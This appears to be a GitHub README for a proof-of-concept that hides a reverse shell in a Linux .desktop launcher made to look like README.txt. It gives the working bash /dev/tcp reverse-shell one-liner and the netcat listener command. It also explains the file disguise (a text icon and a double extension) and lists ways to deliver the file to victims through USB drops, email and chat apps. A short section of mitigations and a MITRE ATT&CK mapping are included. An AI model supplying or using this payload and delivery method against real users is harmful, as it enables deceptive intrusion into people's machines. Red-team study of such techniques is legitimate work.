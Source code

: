 # Reverse Shell Delivery via `.desktop` Launcher


## Objective

- Disguise an executable reverse shell as a trusted, text-based document  
- Deliver the payload in a single file, with no external dependencies  
- Trigger a reverse shell back to a Kali Linux listener upon click

---

## Threat Model

### Attacker Goals

- Gain an interactive remote shell on the target system  
- Maintain stealth through social engineering and file disguise  
- Avoid detection by not requiring administrative privileges or file downloads  

### Assumptions

- The victim uses a GNOME-based Linux desktop (e.g., Ubuntu)
- The user is socially engineered into trusting and launching the disguised file  
- The target machine has outbound network access to the attacker's listener  

### Attacker Capabilities

- Ability to craft a malicious `.desktop` launcher with a reverse shell payload  
- Means of delivering the file to the target (e.g., via USB, phishing, shared folder)  
- Control over a listener machine to receive incoming connections (Kali with `nc`)  

### Victim Environment

- User operates under a non-restricted Linux desktop environment  
- No outbound firewall blocking the reverse shell connection  
- Default GNOME behavior is intact (trust prompt on `.desktop` files)

---

## MITRE ATT&CK Techniques

The following table maps the techniques used in this proof-of-concept to the [MITRE ATT&CK Framework](https://attack.mitre.org/):

| Tactic                  | Technique                                 | ID            | Description |
|-------------------------|-------------------------------------------|---------------|-------------|
| **Initial Access**      | User Execution: Malicious File            | [T1204.002](https://attack.mitre.org/techniques/T1204/002/) | The `.desktop` file is disguised as a benign `README.txt` to trick the user into executing it. |
| **Execution**           | Command and Scripting Interpreter: Bash   | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Bash is used to execute the reverse shell payload. |
| **Defense Evasion**     | Masquerading                              | [T1036](https://attack.mitre.org/techniques/T1036/) | The launcher file mimics a `.txt` document with a text icon and filename. |
| **Command and Control** | Application Layer Protocol: Custom TCP    | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | The reverse shell uses a raw TCP connection (via Netcat). |

---

### Limitations

- Requires user interaction (file must be trusted and launched)  
- The payload runs with the user’s privileges (not root)  
- Network-dependent: reverse shell fails if outbound traffic is blocked   

### Mitigations

- Disable `.desktop` file execution from user-writable directories  
- Enforce outbound firewall rules or use network segmentation  
- Improve user awareness through training against disguised file traps  

---

## Implementation Details

### File: `README.txt.desktop`

- **Filename shown to user:** `README.txt`  
- **Real extension:** `.desktop` (GNOME launcher)  
- **Icon used:** `text-x-generic` (appears like a text file)  
- **Trust method:** GNOME “Allow Launching” system  

### Payload Logic

```bash
bash -c 'bash -i >& /dev/tcp/192.168.1.14/6969 0>&1'
```
---

## Deployment and Execution

### Attacker Setup (Kali Linux)

The attacker prepares a Netcat listener on port `6969` to receive the reverse shell connection:

```bash
nc -lvnp 6969
```
### Victim Interaction

The attacker delivers the `README.txt.desktop` file to the target system. Possible delivery methods include:

- USB drop (removable media left in a shared area)
- File sharing platforms (e.g., shared folders, cloud drives)
- Email attachment (if not filtered)
- Direct messaging (Slack, Discord, etc.)

The user must:

1. Save the file to their Desktop.
2. **Right-click the file and select "Allow Launching"**. This is required to make the launcher executable in GNOME.
3. Double-click the file to run it.
4. Once launched, the payload executes silently and initiates a reverse shell to the attacker.

If the user does not manually allow launching, the file will remain inert and appear as plain text.


---

## Screenshots

- Disguised file on Desktop  
 ![Disguised File](images/disguised-file.png)

- User manually selects “Allow Launching”  
  ![Allow Launching](images/allow-launching.png)

- Reverse shell connection received  
  ![Shell Connected](images/shell-connected.png)

---

## Conclusion

This proof-of-concept demonstrates how `.desktop` launcher files can be leveraged to gain remote shell access through basic user interaction and visual deception. Despite its simplicity, this method is capable of bypassing technical defenses when paired with effective social engineering.
